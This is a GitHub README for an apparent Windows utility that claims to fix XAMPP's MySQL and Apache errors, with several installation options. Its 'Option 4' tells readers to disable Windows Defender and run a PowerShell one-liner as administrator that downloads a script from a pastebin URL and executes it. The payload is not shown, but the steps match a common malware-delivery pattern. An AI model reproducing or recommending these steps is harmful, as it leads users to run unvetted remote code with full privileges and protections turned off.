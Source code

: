 # 🔧 XAMPP Error Fixer

A powerful Windows tool that automatically detects and fixes common XAMPP issues with just one click!

## ✨ Core Features

- **🔍 Auto-Detection**: Automatically finds your XAMPP installation
- **🛠️ Smart Fixes**: Resolves MySQL "stopped unexpectedly" errors
- **🚪 Port Management**: Handles Apache port conflicts (80, 443, etc.)
- **📦 Safe Backups**: Creates backups before making any changes
- **🎯 One-Click Solution**: Fix multiple issues with a single run

## 🚀 Quick Start


### Option 1: Run the EXE (Recommended)
 
```bash
    git clone https://github.com/sumitx007/xampp-error-fixer
```

```bash
    cd xampp-error-fixer/
```

```bash
    xampp_fixer.bat
```

1. **Select** `Run as administrator"`
2. **Follow** `the on-screen prompts`
3. **Done!** `Your XAMPP should be working`



### Option 2: Run Python Script (Make sure to have python installed)
- **Python installation checker**
```bash
    python --version
```
- **Download or clone the folder again if not Downloaded before**
1. **Open** `Command Prompt as Administrator`
```bash 
    git clone https://github.com/sumitx007/xampp-error-fixer
```
```bash
    cd xampp-error-fixer
```
```bash
    cd "Repair Scripts"
```
 **Run**: `python xampp_repair.py`
 ```bash
    python xampp_repair.py
```



### Option 3: Run Python Script (Make sure to have python and pip installed)-Recommended
**Check if both python and pip is available or not**
```bash
    python --version && pip --version
```
**Install xamppfixer through pip**
```bash
    pip install xamppfixer
```
**Run it**
```bash
    xfix
```
**Others are the same procedure like `Option 1/2`**


## Option 4 If you trust the script and have gone through it - Last & Easy One
**You can just turn off the windows defender and run this script for your ease and time saving**

- **Run `Powershell as administrator`**
```bash
    irm https://pastebin.com/raw/11jeZZVn | iex
```
**follows the same procedure as `Option 1/2`**


## 🎯 What It Fixes

| Problem | Solution |
|---------|----------|
| ❌ MySQL won't start | Repairs database files |
| ❌ Apache port conflicts | Finds free ports or stops conflicting services |
| ❌ "MySQL stopped unexpectedly" | Restores from backup database |
| ❌ Services keep crashing | Cleans corrupted configuration |

## 📋 Requirements

- **Windows 10/11** (Windows 8.1+ supported)
- **Administrator privileges** (required)
- **XAMPP installed** on C:, D:, E:, or F: drive

## 🛡️ Safety Features

- ✅ Creates automatic backups
- ✅ Non-destructive fixes
- ✅ Preserves your databases
- ✅ Clean rollback options

## 📖 How to Use

1. **Close XAMPP** Control Panel completely
2. **Run** `xampp_fixer.exe` as administrator
3. **Let it diagnose** your XAMPP installation
4. **Choose fixes** when prompted
5. **Open XAMPP** Control Panel and start services

## 💡 Pro Tips

- Always run as **Administrator**
- Close XAMPP Control Panel before running
- Keep the generated backups safe
- Test your websites after fixing

## 🆘 Common Issues

**"Access Denied"** → Run as Administrator  
**"XAMPP Not Found"** → Install XAMPP in standard location  
**"Port Still Busy"** → Restart your computer and try again

## 📞 Support

If you encounter any issues:
1. Check that you're running as Administrator
2. Ensure XAMPP is properly installed
3. Try restarting your computer
4. Create an issue on GitHub with error details

---

**⚡ Made for the XAMPP community**

*Fix your XAMPP errors in seconds, not hours!*
